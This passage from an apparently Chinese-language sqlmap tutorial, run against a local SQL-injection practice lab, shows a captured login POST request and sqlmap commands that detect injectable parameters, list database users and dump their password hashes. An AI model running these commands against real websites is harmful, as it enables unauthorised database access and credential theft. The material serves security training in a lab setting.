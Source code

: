 [![img](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)

**我们也可以通过抓取 http 数据包保存为文件**，然后指定该文件即可。这样，我们就可以不用指定其他参数，这对于需要登录的网站或者post提交数据的网站很方便。

我们抓取了一个post提交数据的数据包保存为post.txt，如下，uname参数和passwd参数存在SQL注入漏洞

```perl
POST /sqli/Less-11/ HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Referer: http://192.168.10.1/sqli/Less-11/
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit
```

然后我们可以指定这个数据包进行探测

```python
sqlmap -r post.txt        #探测post.txt文件中的http数据包是否存在sql注入漏洞
```

他也会和我们进行交互，询问我们，这里就不一一解释了

[![img](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)

可以看到，已经探测到 uname 参数存在漏洞了，问我们是否还想探测其他参数，我们选择的 y ，它检测到passwd也存在漏洞了，问我们是否还想探测其他参数，我们选择 n

[![img](https://p4.ssl.qhimg.com/t010d67187cada10591.png)](https://p4.ssl.qhimg.com/t010d67187cada10591.png)

然后会让我们选择，在后续的测试中，是选择 uname 这个参数还是passwd这个参数作为漏洞，随便选择一个就好了。

[![img](https://p0.ssl.qhimg.com/t01562d119ea7abc2a0.png)](https://p0.ssl.qhimg.com/t01562d119ea7abc2a0.png)

### 查看数据库的所有用户(—users)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users #查看数据库的所有用户
```

### [![img](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)

### 查看数据库所有用户名的密码(—passwords)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords #查看数据库用户名的密码
```
